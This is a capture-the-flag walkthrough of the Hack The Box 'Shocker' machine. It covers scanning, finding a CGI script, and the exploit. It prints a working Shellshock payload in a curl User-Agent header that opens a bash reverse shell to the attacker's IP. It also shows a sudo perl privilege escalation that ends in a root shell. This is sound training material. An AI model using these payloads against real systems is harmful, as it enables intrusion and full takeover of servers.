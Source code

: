 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [Apache httpd 2.4.18](#apache-httpd-2418)
- [Foothold](#foothold)
	- [Shellshock](#shellshock)
- [Privilege Escalation](#privilege-escalation)
	- [Sudo group](#sudo-group)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.56

[+] Openning ports: 80,2222

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.56 -p80,2222
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 23:48 +07
Nmap scan report for 10.10.10.56
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

### Apache httpd 2.4.18

It is so funny at the home page, but don't have value info here.

![](images/2.png)

List of the hidden in the server with wfuzz.

```
┌──(Hades㉿10.10.14.5)-[2.4:26.0]~
└─$ wfuzz -z file,/usr/share/dirb/wordlists/common.txt --hc 404 'http://10.10.10.56/FUZZ'
<snip>
000000820:   403        11 L     32 W       294 Ch      "cgi-bin/"
000002020:   200        9 L      13 W       137 Ch      "index.html"
000003588:   403        11 L     32 W       299 Ch      "server-status"
```

There are uri `/cgi-bin/` may have more hidden content and will be exploit with shellshock vulnerability.

```
┌──(Hades㉿10.10.14.5)-[4.9:27.2]~
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php,.sh,.html -b 403,404 -q
/user.sh              (Status: 200) [Size: 118]
```

I found uri `user.sh` in directory `cgi-bin`.

```
┌──(Hades㉿10.10.14.5)-[4.9:26.2]~
└─$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 13:55:03 up  1:11,  0 users,  load average: 0.00, 0.00, 0.00

```

## Foothold

### Shellshock

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/shocker)

Shellshock CVE-2014-6271 [Poc here](https://github.com/mubix/shellshocker-pocs).

`env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`

Execute shelshock payload in the server using curl.

```
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.10.14.5)-[3.4:26.2]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41484
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

## Privilege Escalation

### Sudo group

Checking with `sudo -l`, I know that command `/usr/bin/perl` can run as root without require password.

```
shelly@Shocker:/tmp$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Create file reverse shell `rev.pl` and execute it using `sudo /usr/bin/perl`.

```
shelly@Shocker:/tmp$ cat rev.pl | sudo /usr/bin/perl
```

At listener I have root shell.

```
┌──(Hades㉿10.10.14.5)-[3.5:25.3]~/scripting/priescal
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41492
# id
uid=0(root) gid=0(root) groups=0(root)
```